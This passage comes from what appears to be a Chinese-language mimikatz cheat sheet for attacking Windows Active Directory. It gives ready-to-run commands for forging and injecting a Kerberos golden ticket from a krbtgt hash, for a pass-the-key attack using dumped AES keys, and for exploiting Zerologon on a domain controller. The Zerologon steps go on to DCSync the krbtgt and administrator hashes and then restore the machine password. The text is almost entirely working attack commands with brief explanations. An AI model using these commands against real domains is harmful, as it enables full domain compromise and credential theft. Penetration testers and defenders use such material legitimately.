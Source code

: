 得到 krbtgt 哈希之后，使用 mimikatz 的 `kerberos::golden` 生成黄金票据 `test.kiribi`：
```bash
kerberos::golden /user:administrator /domain:FFFFFFFF0X.com /sid:S-1-5-21-1112871890-2494343973-3486175548 /krbtgt:743093920acd8d427323c24c0e2c52c2 /ticket:test.kiribi
```
`/admin` 为伪造的用户名，用户名可以任意伪造 `/domain` 为目标的域名 `/sid` 为目标域名的 SID `/krbtgt` 为 krbtgt 账户密码的 NTLM Hash `/ticket` 为要伪造的黄金票据的名称

注入黄金票据
```bash
kerberos::ptt test.kiribi
```

访问测试

![](../../../assets/img/Security/安全工具/mimikatz/4.png)

---

## PTK

```bash
# 获取用户的 aes key
mimikatz "privilege::debug" "sekurlsa::ekeys"

# 注意查看 aes256_hmac 和 aes128_hmac

mimikatz "privilege::debug" "sekurlsa::pth /user:test /domain:test.com /aes256:c4388a1fb9bd65a88343a32c09e53ba6c1ead4de8a17a442e819e98c522fc288"
```

域控未打 KB2871997 补丁前，无法使用 Key 传递攻击

---

## zerologon

```bash
# 检测
lsadump::zerologon /target:WIN-A5GPDCPJ7OT.ffffffff0x.com /account:WIN-A5GPDCPJ7OT$

# 利用
lsadump::zerologon /target:WIN-A5GPDCPJ7OT.ffffffff0x.com /account:WIN-A5GPDCPJ7OT$ /exploit

# 使用空密码登录域管
lsadump::dcsync /domain:ffffffff0x.com /dc:WIN-A5GPDCPJ7OT.ffffffff0x.com /user:krbtgt /authuser:WIN-A5GPDCPJ7OT$ /authdomain:ffffffff0x /authpassword:"" /authntlm

# 导出hash
lsadump::dcsync /domain:ffffffff0x.com /dc:WIN-A5GPDCPJ7OT.ffffffff0x.com /user:administrator /authuser:WIN-A5GPDCPJ7OT$ /authdomain:ffffffff0x /authpassword: /authntlm

# 恢复密码
lsadump::postzerologon /target:192.168.141.154 /account:WIN-A5GPDCPJ7OT$
```